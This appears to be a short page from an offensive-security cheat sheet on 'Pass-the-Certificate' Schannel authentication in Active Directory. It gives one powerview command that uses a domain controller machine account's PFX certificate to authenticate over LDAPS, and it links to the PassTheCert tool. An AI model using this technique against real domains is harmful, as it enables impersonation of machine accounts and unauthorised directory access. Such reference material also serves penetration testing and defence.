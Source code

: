 ```yaml
---
description: Schannel authentication
---
```


# Pass-the-Certificate

Authenticate with a certificate using [powerview.py](https://github.com/aniqfakhrul/powerview.py):

```
$ powerview --pfx dc01.pfx megacorp.local/'DC01$'@DC01.megacorp.local -p 636 --use-ldaps --no-admin-check --dc-ip 192.168.1.11 -ns 192.168.1.11 [--obfuscate]
```




## Tools



### PassTheCert

- [https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)
- [https://github.com/AlmondOffSec/PassTheCert](https://github.com/AlmondOffSec/PassTheCert)
